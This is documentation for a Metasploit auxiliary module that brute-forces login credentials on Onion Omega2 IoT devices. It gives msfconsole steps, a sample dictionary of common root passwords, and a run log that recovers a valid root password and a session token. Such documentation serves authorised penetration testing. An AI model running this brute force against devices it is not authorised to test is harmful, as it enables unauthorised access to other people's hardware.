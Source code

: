 ## Description
The onion_omega2_login module is used to brute-force credentials for Onion Omage2 devices.

## Vulnerable Application
* Onion Omage2 HTTPd Service

![Onion Omega2](https://raw.githubusercontent.com/OnionIoT/Onion-Docs/master/Omega2/Documentation/Get-Started/img/unbox-6-omega-led-detail.jpg)

![Onion Omega2 OnionOS Web Page](https://i.imgur.com/nrHnQaW.png)

## Verification Steps
1. Plug your Onion Omega2 device to a power source. 
    - First time setup can be found [here](https://docs.onion.io/omega2-docs/first-time-setup.html)
2. Connect to its Wi-Fi network.
3. Start `msfconsole`
4. Do: `use auxiliary/scanner/http/onion_omega2_login`
5. Do: `set RHOSTS 192.168.3.1`
6. Do: `set USERPASS_FILE <user pass dictionary>`
    - username and password separated by space and one pair per line.
7. Do: `run`

Sample userpass file:
```text
root 123456
root password
root 123456789
root 12345678
root 12345
root 10601
root qwerty
root 123123
root 111111
root abc123
root 1234567
root dragon
root 1q2w3e4r
root sunshine
root 654321
root master
```

## Scenario 
```
msf > use auxiliary/scanner/http/onion_omega2_login
msf auxiliary(scanner/http/onion_omega2_login) > set RHOSTS 192.168.3.1
RHOSTS => 192.168.3.1
msf auxiliary(scanner/http/onion_omega2_login) > set USERPASS_FILE something.txt
USERPASS_FILE => something.txt
msf auxiliary(scanner/http/onion_omega2_login) > run

[*] Running for 192.168.3.1...
[*] 192.168.3.1:80 - [ 1/16] - root:123456 - Failure
[!] No active DB -- Credential data will not be saved!
[*] 192.168.3.1:80 - [ 2/16] - root:password - Failure
[*] 192.168.3.1:80 - [ 3/16] - root:123456789 - Failure
[*] 192.168.3.1:80 - [ 4/16] - root:12345678 - Failure
[*] 192.168.3.1:80 - [ 5/16] - root:12345 - Failure
[+] Ubus RPC Session: 403e133730879d23a2a0df022e19c19c
[+] 192.168.3.1:80 - [ 6/16] - root:10601 - Success
[*] 192.168.3.1:80 - [ 7/16] - root:qwerty - Failure
[*] 192.168.3.1:80 - [ 8/16] - root:123123 - Failure
[*] 192.168.3.1:80 - [ 9/16] - root:111111 - Failure
[*] 192.168.3.1:80 - [10/16] - root:abc123 - Failure
[*] 192.168.3.1:80 - [11/16] - root:1234567 - Failure
[*] 192.168.3.1:80 - [12/16] - root:dragon - Failure
[*] 192.168.3.1:80 - [13/16] - root:1q2w3e4r - Failure
[*] 192.168.3.1:80 - [14/16] - root:sunshine - Failure
[*] 192.168.3.1:80 - [15/16] - root:654321 - Failure
[*] 192.168.3.1:80 - [16/16] - root:master - Failure
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
